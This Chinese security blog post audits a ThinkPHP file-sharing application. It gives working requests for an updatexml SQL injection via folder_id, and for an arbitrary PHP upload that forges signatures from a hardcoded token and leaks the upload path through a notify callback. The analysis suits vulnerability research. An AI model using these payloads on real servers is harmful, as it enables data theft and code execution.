# 记一次 0.5day 分析 - 先知社区

记一次 0.5day 分析

- - -

# 审计之路

## 路由分析

首先这里明眼人一看就知道在`application`​这个目录下，可以抓登录的接口或者注册的接口或者进去后的接口来判断对应的代码之后登录进去寻找文件

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226191739-a6ec55aa-d498-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226191812-ba84cdf4-d498-1.png)

路由很少，所以很明显看出我们登录的`/user/login/`​对应的是`index`​目录下的`User.php`​的`login`​方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226191819-bf02c2d2-d498-1.png)

## 后台 SQL 注入

emm 本来想看前台的，但是大部分是存在鉴权代码的

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226191826-c2f64a1c-d498-1.png)

`$this->userInfo['id']`​

由于是 TP 的框架，所以先来回顾下 TP 的`where`​语句

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226191833-c6edb75e-d498-1.png)

在 TP 框架中，大部分的 SQL 查询都是做了参数绑定的，如下图所示

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226191840-cafc13b8-d498-1.png)

这里的`$code`​就是做了参数绑定，但是一开始去试着访问的时候发现是 `404`​ 并且返回非法请求

然后参考了下这篇文章 发现原来可能存在路由定义的问题

[https://www.kancloud.cn/z8859346/thinkphp/1747811](https://www.kancloud.cn/z8859346/thinkphp/1747811)

找到`/route/route.php`​

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226191850-d0e81cb8-d498-1.png)

发现对`index`​这个模块进行了定义，所以要根据他的规则来进行访问，只要访问了`/s:code`​就会去访问`index/share`​方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226191856-d4b0a568-d498-1.png)

但因为`:code`​进行了占位符 所以相当于绑定了参数无法进行注入

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226191901-d7eff3c8-d498-1.png)

所以这些点都不存在 SQL 注入

于是转向了后台

跟踪到 index 的 file 文件，发现了`list()`​方法这里接受几个可控的 参数`foloder.id`​、`search`​，进入到`FileManager#listFile()`​方法中

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226191909-dcd01ae4-d498-1.png)

主要是因为`listfile()`​这个命名还是很大可能会跟数据库有关联的，所以跟进下

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226191916-e0b458be-d498-1.png)

这`listFile`​这个方法里面，他会先执行`self`​类里面的`getfolderPid`​这个方法，并且传入`$folder_id`​

再次跟进

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226191922-e4629f66-d498-1.png)

我们传入的内容不为空，所以传了啥返回啥，接下来往下走就是整个 SQL 的一个坑点了

### 坑点

接着就是数组的形式进行赋值

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226191928-e7de06da-d498-1.png)

那么现在问题来了，他是以数组的形式去进行 sql 查询，那么可能存在 sql 的点吗？我们来进行 mysql 的监控

代码如下，先是单数组正常使用`select`​查询

```bash
$ttt = db('stores')
            ->where(['parent_folder'=>$folder_id])
            ->where('origin_name','like','%'.$search.'%')
            ->field('id,uid,shares_id,origin_name as name,ext,size,count_down,count_open,update_time')
            ->select();

        var_dump($ttt);
        die();
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226191935-ebd1edf6-d498-1.png)

发现正常转义了，那么双数组跟三数组也是一样到效果，那么这里就得到一个结论，并不是因为数组的拼接问题所导致的 sql 注入，那么细心的话可以发现，我的代码其实跟原始代码是有一定的区别的，就是并没有加入一个关键代码

```bash
->fetchSql(true)
```

这里来解释一下`fetchSql`​ 方法

> fetchSql 方法在 ThinkPHP 框架中（以及其他可能支持该功能的框架或数据库操作类）的主要作用是获取即将执行的 SQL 查询语句，而不是真正执行这个查询。当你调用 fetchSql(true) 时，框架会生成对应的 SQL 语句并返回，但并不会执行该 SQL

啥意思呢，来看数据库监控

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226191942-f0736592-d498-1.png)

可以发现数据库监控仅仅只是输出了一条 展示字段的 SQL 语句

```bash
SHOW COLUMNS FROM `sk_stores`
```

那其实就是因为他压根就没有进行查询我们的`where`​条件 ---> 这其实就也印证了我之前一直说 并没有在数据库监控中看到这些查询语句，是因为使用了`fetchSql(true)`​

那么接下来既然是没有进行 SQL 语句的执行的，那么也就是我们现在的`$files_sql`​是一条尚未执行的 SQL 语句，我们来打印一下看看

```bash
string(221) "SELECT `id`,`uid`,`shares_id`,origin_name as name,`ext`,`size`,`count_down`,`count_open`,`update_time` FROM `sk_stores` WHERE  `uid` = 10  AND `parent_folder` = 3'  AND `delete_time` IS NULL  AND `origin_name` LIKE '%aa%'"
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226191949-f43f2e18-d498-1.png)

正是因为没有带入数据库查询，所以里面的特殊符号比如`'`​就并没有参数绑定或者预编译或者转义，而最终产生 SQL 注入的万恶之源，正是下方的`union`​

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226191954-f774aeaa-d498-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226191959-fa9e8038-d498-1.png)

```bash
SELECT `id`,`uid`,`shares_id`,folder_name as name,`ext`,`size`,`count_down`,`count_open`,`update_time` FROM `sk_folders` WHERE  `uid` = 10  AND `parent_folder` = '3'  AND `delete_time` IS NULL  AND `folder_name` LIKE '%aa%' 

UNION ALL 

( SELECT `id`,`uid`,`shares_id`,origin_name as name,`ext`,`size`,`count_down`,`count_open`,`update_time` FROM `sk_stores` WHERE  `uid` = 10  AND `parent_folder` = 3  AND `delete_time` IS NULL  AND `origin_name` LIKE '%aa%' ) LIMIT 0,20
```

所以最终的结果就是因为通过了`union`​去拼接起来了，所以才导致了 SQL 注入的产生，破案了

最终报文如下

```bash
GET /file/list?folder_id=1-updatexml(1,concat(0x7e,database(),0x7e),1)&search=&page=&rows= HTTP/1.1
Host: wp.com
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Content-Type: application/json
Referer: http://wp.com/user/index
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=21cpn2h5jqf7e47k8dtlrhnmk4
Connection: close
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226192007-ff353fba-d498-1.png)

## 文件上传

首先全局搜索`move_uploaded_file`​函数，发现`public/server/index.php`​文件引用该函数

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226192013-02f252be-d499-1.png)

之后便发现这个方法是一个`protected`​权限来修饰，所以这个方法直接调用不成功

之后就要去观看这个文件被谁来调用 发现是`\public\server\index.php#start()`​调用了，刚好是符合`protected`​属性的

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226192026-0a72080e-d499-1.png)

但是往上看发现存在验签操作

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226192033-0e6e32b6-d499-1.png)

发现是存在两个传参，`$command`​ `$sign`​ 并且是需要验签的，那我们跟进`sign_verify`​看看

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226192038-11cffc0a-d499-1.png)

继续跟进​`sign_params`​

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226192044-151ec9ae-d499-1.png)

如果不理解我们可以写个 demo 本地测试下

首先流程如下

```bash
我们传入的 HTTP 参数 这个数组的 hash  == 我们 sign 传入的 hash
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226192051-1916660c-d499-1.png)

他会把我们传入的`$sign`​不作为`$params`​去传参

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226192057-1ca3d868-d499-1.png)

那么逻辑就清楚了就是我们`GET`​传参的内容跟我们`token`​传入的内容进行拼接且 MD5 的值跟我们`$sign`​要相同

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226192104-20e451f0-d499-1.png)

如果验签成功，就能够进入到`upload`​的逻辑中

之后就调用`upload_file`​这个函数，这个函数我也说了，他是调用`move_uplaoded_file`​函数进行上传的，他接受一个参数`uid`​的值

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226192110-2496b70c-d499-1.png)

那么在这里我们就尝试进行复现，当刚打开 BP 我就发现问题了，emmm 在上述的 demo 中我是写死了拼接的字符串的，但是远程是`$this->config['token']`​ 拼接这个东西啊，所以跟进一下这个`$config`​的内容，发现在最下面就定义了 token 的内容为`asdasfasfasfasfasfa`​

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226192116-286d4b02-d499-1.png)

那么就可以直接生成`sign`​了

```bash
<?php echo md5("md=upload&uid=1asdasfasfasfasfasfa");?>
```

那么继续复现

```bash
POST /server/index.php/start?md=upload&uid=1&sign=e8766abd8742eb67a2c07b089ecf636a HTTP/1.1
Host: wp.com
Cache-Control: no-cache
Accept: */*
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=--------------------------570796120375390059114427
User-Agent: PostmanRuntime-ApipostRuntime/1.1.0
Content-Length: 389

----------------------------570796120375390059114427
Content-Disposition: form-data; name="file"; filename="1.php"
Content-Type: application/x-httpd-php

<?php phpinfo(); ?>
----------------------------570796120375390059114427--
```

上传后返回如下

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226192125-2d8e0bee-d499-1.png)

解码后为 同步错误

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226192130-30c6f6fe-d499-1.png)

来看看源码

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226192136-33f57382-d499-1.png)

发现已经上传了，但是咱不知道上传路径啊。。。找一下本地可以发现在这里

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226192141-36f35d38-d499-1.png)

但是如何找路径呢，可以关注到后续还有一串代码

```bash
$res = $this->upload_notify($_GET['notify'],$info);
```

我将`$info`​打印了下发现已经存入了上传的路径了

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226192148-3b22b3ae-d499-1.png)

跟进下`upload_notify`​ 发现跟 SSRF 一样可以向外请求并且带上我们的`$info`​ --------> 这感觉写的就怕我找不到路径似的，这里的验签压根就不需要管他，因为文件都传上去了，无所谓了，只需要路径，而他也并没有判断验签对不对 (如果校验了，就没办法上传了，因为`$info`​是未知的)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226192154-3f2afb82-d499-1.png)

于是带好参数写好验签即可成功触发

```bash
echo md5("md=upload&notify=http://127.0.0.1:8877/&uid=1asdasfasfasfasfasfa");
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226192203-43fcb402-d499-1.png)

```bash
POST /server/index.php/start?md=upload&uid=1&notify=http://127.0.0.1:8877/&sign=88c03d47ed5a1df9ed7ed9e1c1ce8afd HTTP/1.1
Host: wp.com
Cache-Control: no-cache
Accept: */*
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=--------------------------570796120375390059114427
User-Agent: PostmanRuntime-ApipostRuntime/1.1.0
Content-Length: 389

----------------------------570796120375390059114427
Content-Disposition: form-data; name="file"; filename="1.php"
Content-Type: application/x-httpd-php

<?php phpinfo(); ?>
----------------------------570796120375390059114427--
```

# 总结

1.  多扣代码多调试才行，一步一步来
2.  有些时候框架忘记或者不熟悉还是要多仔细看看才行
